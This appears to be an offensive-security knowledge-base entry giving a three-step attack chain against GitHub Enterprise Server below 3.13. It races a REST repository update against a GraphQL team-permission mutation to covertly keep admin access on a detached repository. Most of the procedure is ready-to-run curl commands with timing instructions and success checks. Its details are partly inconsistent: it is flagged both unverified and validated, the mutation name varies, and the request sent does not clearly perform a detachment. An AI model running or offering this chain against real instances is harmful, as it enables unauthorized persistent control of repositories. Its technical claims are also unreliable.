

---
tags:
  - race-condition
  - github-enterprise
  - api-exploitation
  - privilege-escalation
  - persistence
type: attack_chain
tools: []
tactics:
  - '[[Privilege Escalation]]'
  - '[[Persistence]]'
commands:
  - '[[commands/github-rest-update-repo-detach]]'
  - '[[commands/github-graphql-update-teams-repo]]'
  - '[[commands/github-check-repo-permissions]]'
verified: false
platforms:
  - Web
  - GitHub Enterprise Server
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Initiate-Repository-Detachment-via-GitHub-REST-API]]'
  - >-
    [[procedures/Execute-Concurrent-GraphQL-Mutation-to-Alter-Repository-Permissions]]
  - '[[procedures/Verify-Persistent-Admin-Access-on-Detached-Repository]]'
step_count: 3
techniques:
  - '[[Exploitation for Privilege Escalation]]'
updated_at: '2025-12-14T17:32:29.424Z'
description: >-
  Exploits a race condition between GitHub's Repo Update REST API and
  updateTeamsRepository GraphQL mutation to allow an existing admin to retain
  unauthorized admin access on a detached repository.
skill_level: advanced
impact_level: high
id: ddb4a83e-63ea-456a-a72c-2be2d00c017b
validated: true
mitre_tactics:
  - '[[Privilege Escalation]]'
  - '[[Persistence]]'
mitre_techniques:
  - '[[Exploitation for Privilege Escalation]]'
---
# Race Condition Exploitation for Covert Persistent Admin Access Retention in GitHub Enterprise Server

Multi-stage attack chain demonstrating exploitation of a race condition in GitHub Enterprise Server (versions prior to 3.13) between the Repo Update REST API and the updateTeamsRepository GraphQL mutation. An authenticated admin can initiate repository detachment while concurrently modifying team permissions via GraphQL, exploiting the lack of synchronization to retain covert admin access post-detachment. This allows persistent unauthorized control over the repository.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~1 minutes |
| Skill Level | Advanced |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- GitHub API access token with admin privileges
- curl or similar HTTP client

### Target Environment

- GitHub Enterprise Server (versions < 3.13)
- Required services: GitHub Repositories, GitHub Teams
- Tech stack: REST API, GraphQL
- Network access: Authenticated API access to the GitHub instance

### Initial Access Requirements

- Existing admin credentials/token for the organization/team
- Knowledge of the target repository and team IDs
- No prior external access needed; assumes internal admin position

## Detailed Attack Procedures

### Step 1: Initiate Repository Detachment
procedure: [[procedures/Initiate-Repository-Detachment-via-GitHub-REST-API]]

**Objective**: Start the repository detachment process via the REST API to create the timing window for the race condition.

**Instructions**: Use the GitHub REST API to update the repository and initiate detachment from the organization or team. This step triggers the asynchronous detachment process.

Execute [[commands/github-rest-update-repo-detach]] to detach the repository:

```bash
curl -X PATCH \
  -H "Authorization: token YOUR_ADMIN_TOKEN" \
  -H "Accept: application/vnd.github.v3+json" \
  https://YOUR_GHES_HOST/api/v3/repos/ORG/REPO \
  -d '{"private": true, "archived": true}'
```

Monitor the response to ensure the detachment request is accepted but not yet fully processed.

**Expected Output**: HTTP 200 OK with updated repository details indicating detachment initiation.

**Success Indicators**:
- API response confirms update acceptance
- Repository status shows pending detachment

### Step 2: Execute Concurrent GraphQL Mutation
procedure: [[procedures/Execute-Concurrent-GraphQL-Mutation-to-Alter-Repository-Permissions]]

**Objective**: Simultaneously invoke the GraphQL mutation to modify team permissions on the repository, exploiting the race to retain admin access during detachment.

**Instructions**: While the REST API detachment is in progress (within the critical timing window), send a GraphQL mutation to update team repository permissions, ensuring admin rights are preserved post-detachment.

Execute [[commands/github-graphql-update-teams-repo]] immediately after Step 1:

```bash
curl -X POST \
  -H "Authorization: token YOUR_ADMIN_TOKEN" \
  -H "Content-Type: application/json" \
  https://YOUR_GHES_HOST/api/v4/graphql \
  -d '{"query": "mutation { updateTeamRepository(input: {teamId: TEAM_ID, ownerId: ORG_ID, repositoryId: REPO_ID, permission: ADMIN}) { clientMutationId } }"}'
```

Time this request to overlap with the REST API processing for the race condition to trigger.

**Expected Output**: GraphQL response with success mutation, no errors.

**Success Indicators**:
- Mutation accepted without rejection
- No immediate permission denial

### Step 3: Verify Persistent Admin Access
procedure: [[procedures/Verify-Persistent-Admin-Access-on-Detached-Repository]]

**Objective**: Confirm that admin access persists on the now-detached repository, validating the exploitation success.

**Instructions**: After both API calls complete, query the repository permissions to verify covert retention of admin rights.

Execute [[commands/github-check-repo-permissions]] to inspect access:

```bash
curl -H "Authorization: token YOUR_ADMIN_TOKEN" \
  -H "Accept: application/vnd.github.v3+json" \
  https://YOUR_GHES_HOST/api/v3/repos/ORG/REPO/collaborators/YOUR_USERNAME/permission
```

Check for 'admin' permission in the response despite detachment.

**Expected Output**: JSON response showing 'permission': 'admin'.

**Success Indicators**:
- Admin permission confirmed post-detachment
- Access to repo actions remains available

## Attack Chain Summary

### Key Achievements

1. Exploited race condition to bypass detachment safeguards
2. Retained persistent admin access covertly
3. Demonstrated impact on repository security in GitHub Enterprise Server < 3.13

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Privilege Escalation]]
- [[Persistence]]

---
*Last updated: 2023-10-01T00:00:00Z*
